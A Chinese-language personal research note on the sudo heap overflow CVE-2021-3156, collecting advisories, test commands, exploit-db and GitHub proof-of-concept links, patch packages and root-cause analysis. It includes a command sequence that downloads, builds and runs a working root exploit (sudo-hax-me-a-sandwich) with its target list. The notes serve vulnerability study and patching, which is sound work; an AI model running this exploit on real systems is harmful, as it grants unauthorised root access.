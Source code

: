 # linux 漏洞

## [Sudo缓冲区溢出漏洞（CVE-2021-3156）](http://www.nsfocus.net/vulndb/52555)

Sudo 1.8.2-1.8.31p2和1.9.0-1.9.5p1版本存在缓冲区溢出漏洞。
攻击者可通过“sudoedit -s”和以单个反斜杠字符结尾的命令行参数利用该漏洞获得系统root权限。

解决办法
[【安全通报】Sudo 堆缓冲区溢出漏洞 （CVE-2021-3156）](https://nosec.org/home/detail/4664.html)

[不用密码就能获取root权限？sudo被曝新漏洞](https://www.freebuf.com/news/262127.html)
视频显示
[源出处](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)

[官方](https://www.sudo.ws/alerts/unescape_overflow.html)

### 测试确认/批量检测

https://www.bleepingcomputer.com/news/security/new-linux-sudo-flaw-lets-local-users-gain-root-privileges/

简单测试
sudoedit -s '\' 112233445566
env -i 'AA=a\' 'B=b\' 'C=c\' 'D=d\' 'E=e\' 'F=f' sudoedit -s '1234567890123456789012\'

[cve-2021-3156-sudo堆溢出简单分析 ](https://bbs.pediy.com/thread-265669.htm)

测试版本:
https://github.com/sudo-project/sudo/archive/SUDO_1_9_5p1.tar.gz
https://github.com/sudo-project/sudo/archive/SUDO_1_8_27.tar.gz

现在版本:
Sudo version 1.8.27
Sudo version 1.8.21p2

阿里的 sudo 漏洞居然没有
但 https://www.exploit-db.com/ 有其它 POC

Sudo 1.8.25p - 'pwfeedback' Buffer Overflow
https://www.exploit-db.com/exploits/48052
sudo 1.8.27 - Security Bypass
https://www.exploit-db.com/exploits/47502
ptrace - Sudo Token Privilege Escalation (Metasploit)
https://www.exploit-db.com/exploits/47345

### exploit 利用

这个不知道能不能? 好像不行,回头看看是干什么的?
https://github.com/TH3xACE/SUDO_KILLER
https://github.com/TH3xACE/SUDO_KILLER/blob/6327a45cfb028d6140e10a6e799ac54af0711d14/SUDO_KILLERv2.0.6.sh

https://github.com/Mr-xn/Penetration_Testing_POC
这个只有两个可执行文件,好像不行
https://github.com/mr-r3b00t/CVE-2021-3156

这个只有一个1.c
https://github.com/reverse-ex/CVE-2021-3156

**这个亲测可以利用的**

电报群里发的：，但是只能用于特定的版本
对应: https://github.com/blasty/CVE-2021-3156
$ vagrant init ubuntu/focal64
$ vagrant up
$ vagrant ssh
$ wget https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz
$ tar -xzvf *.tar.gz
$ cd CVE-2021-3156
$ make
./sudo-hax-me-a-sandwich
可以用, 18.04.4也没有问题,gitlab版本更新了18.04.5
  available targets:
  ------------------------------------------------------------
    1) Ubuntu 18.04.4 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    2) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    3) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    4) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
另外的一个，不知道用法：
问题: 现在看 只有上面的版本可用
这个版本不行,应该是参数不对
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-52-generic x86_64)

其它有视频可以完成的:

https://twitter.com/r4j0x00/status/1355489323794108417
https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156

https://github.com/stong/CVE-2021-3156
https://twitter.com/gf_256/status/1355354178588180481

这个总结好几个能用的: 注:我和上面的三个一样
https://github.com/ltfafei/CVE-2021-3156/

twitter 视频模糊

[Twitter视频下载器](https://www.savetweetvid.com/zh)

### 修复:

https://omvapt.com/blog/how-to-update-sudo-packages-manually-to-fix-the-buffer-overflow-vulnerability-cve-2021-3156how-to-update-sudo-packages-manually-to-fix-the-vulnerability-sudo-flaw-lets-linux-users-run-commands-as-roo/

https://github.com/sudo-project/sudo/releases/download/SUDO_1_9_5p2/sudo_1.9.5-3_ubu1604_amd64.deb
https://github.com/sudo-project/sudo/releases/download/SUDO_1_9_5p2/sudo_1.9.5-3_ubu1804_amd64.deb
https://github.com/sudo-project/sudo/releases/download/SUDO_1_9_5p2/sudo_1.9.5-3_ubu2004_amd64.deb

sudo gdebi sudo_1.9.5-3_ubu2004_amd64.deb 

新版本下载: https://www.sudo.ws/download.html

修复 ansible
https://github.com/ymrsmns/CVE-2021-3156

https://s4-cs-pub-std.oss-cn-hangzhou.aliyuncs.com/chat_upload/tid613/image_1606884484072_sqc34.jpg
https://s4-cs-pub-std.oss-cn-hangzhou.aliyuncs.com/chat_upload/tid5261/image_1611839171605_qga5o.jpg

### 原理研究:

https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156

AFL模糊器(American Fuzzy lop)

[AFL实战：测试sudo提权漏洞CVE-2021-3156](https://netsecurity.51cto.com/art/202101/643772.htm#topx)
> 假设并行运行了4个实例，大约2小时的CPU时间。
> 通过2小时的CPU时间测试，就可以在setuid中找到严重的安全漏洞

视频讲解
https://github.com/mbcrump/CVE-2021-3156
https://www.youtube.com/watch?v=iRIXXUNkgAM
00:00 - Introduction
01:29 - What's a CVE?
02:22 - What's the bug?
05:30 - Exploit shown in action
13:07 - Sudo versions affected
13:48 - WSL Windows Subsystem for Linux
15:11 - Detecting if you are vulnerable through sudo (WSL)
19:21 - Detecting if you are vulnerable through sudo (Ubuntu)
20:53 - Detecting if you are vulnerable through commands
24:58 - What to do if you are running K8s or containers
27:54 - Examine Sudo versions
28:30 - Patching WSL 
30:17 - Patching Ubuntu 
32:09 - Where can I get exploit.c? 
33:59 - Patching Ubuntu (part 2)
38:10 - Patching WSL (part 2)
46:35 - GitHub search results
47:28 - Patching WSL (part 3)
